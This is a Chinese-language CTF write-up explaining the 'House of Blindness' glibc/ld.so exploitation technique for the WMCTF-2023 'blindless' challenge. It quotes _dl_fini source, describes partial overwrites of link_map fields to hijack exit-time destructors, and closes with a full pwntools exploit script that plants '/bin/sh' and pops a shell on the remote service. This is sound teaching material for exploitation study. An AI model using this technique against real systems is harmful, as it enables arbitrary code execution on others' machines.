 ```yaml
---
id: glibc-blindness
aliases: []
tags:
  - Glibc
date: 2023-09-25 23:04:22
title: GLIBC - exploitation-in-latest-glibc-0x01 House of Blindness
---
```

# TLDR;

House of blindless 是一个涉及到 rtld 的利用方法，事实上 ld.so 里面确实还有很多被利用的潜力，后面涉及到 glibc 的比赛题目可能也会偏向于考察这部分内容。

直接以 `WMCTF-2023-blindless` 为例，附件链接：

[attachment](https://drive.google.com/file/d/1AF3JrobITUa0dj_bfVrcMBJXOQIJgM86/view?usp=sharing)

# Analysis

程序漏洞：

给了一个类似 bf 的 vm 程序，不过难得的逻辑很简单，可以实现在堆地址上加偏移的任意地址写，但是没有泄漏，这很明显需要某种 HOUSE 来打，这里考虑到 `house of blindless`：

低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数，要求：

- 能够实现 elf 或 libc 范围内的任意地址写（本题可以分配大型堆块到 libc 前，进而实现 libc 范围内的任意写）

- 程序正常退出

参考到 ld.so 源码，elf/dl-fini.c 中的 \_dl_fini() 函数中：

```c
/* 其中关键定义如下： */
#define DT_INIT 12
#define DT_FINI 13
#define DT_FINI_ARRAY 26

/* Is there a destructor function?  */
if (l->l_info[DT_FINI_ARRAY] != NULL || l->l_info[DT_FINI] != NULL)
{
    /* When debugging print a message first.  */
    if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
        _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                          DSO_FILENAME (l->l_name),
                          ns);

    /* First see whether an array is given.  */
    if (l->l_info[DT_FINI_ARRAY] != NULL) // 分支1
    {
        ElfW(Addr) *array =
            (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
        unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
        while (i-- > 0)
            ((fini_t) array[i]) ();
    }

    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) // 分支2
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

这里有两条分支，要劫持控制流就需要到达控制 `l->l_info[26] == 0` 绕过分支1，接下来分为能控制 elf+libc 和 仅能控制 libc 的两种情况：

**控制 elf+libc**：

> 由于能控制 elf，就可以改到 l->l_info[DT_FINI] 上具体的值，进而直接在 l_addr 的基础上进行任意 elf 地址调用。

```c
l->l_info[13]->d_un.d_ptr = <target> - elf_base;
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

**若仅能控制 libc**：

```c
/* 在 l->l_info[13] 附近找到其他 Elf64_Dyn 类型结构体，且其 d_un.d_ptr 正好满足我们需求 */
*(char *)l->l_addr = <target> & 0xff // 改写低位
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

---

# Exploitation

于是利用第二种思路得到本题 exp：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)


payload = b""


def go_forward(distance):
    global payload
    payload += b"@"
    payload += p32(distance)


def next_byte():
    global payload
    payload += b">"


def next_long():
    global payload
    payload += b"+"


def change_byte(data):
    global payload
    lg("data", data)
    payload += b"."
    payload += p8(data)


def edit(data):
    global payload
    for i in range(len(data)):
        change_byte(data[i])
        next_byte()


DT_FINI = 13
DT_INIT = 12
DT_FINI_ARRAY = 26
_rtld_global_to_chunk = 0x323060
arg0 = _rtld_global_to_chunk + 2312
l_addr = 0x324190


go_forward(arg0 - 0x10)
edit(b"/bin/sh\x00")
go_forward(l_addr - arg0 - 8)
edit(p8(0xE0))
go_forward(0xA8 - 1)
edit(p8(0xA8))
go_forward(0x68 - 1)
edit(p64(0))

payload += b"q"

ru(b"Pls input the data size\n")
sl(i2b(0x100000))
ru(b"Pls input the code size\n")
sl(i2b(0x100))
ru(b"Pls input your code\n")
s(payload)

ia()
```

